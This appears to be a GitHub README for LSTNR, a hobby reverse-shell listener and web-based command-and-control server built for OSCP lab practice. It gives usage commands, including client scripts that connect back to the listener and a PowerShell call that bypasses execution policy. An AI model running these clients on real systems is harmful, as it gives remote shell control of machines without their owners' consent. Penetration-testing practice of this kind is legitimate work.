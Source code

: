 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

OR

Remote devices can be managed from the LSTNR webpage.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Web page - obsolete
<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE: CLI
1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`


# USAGE: Web C2 server 
1. Start the server
    - `python3 lstnr-web.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`
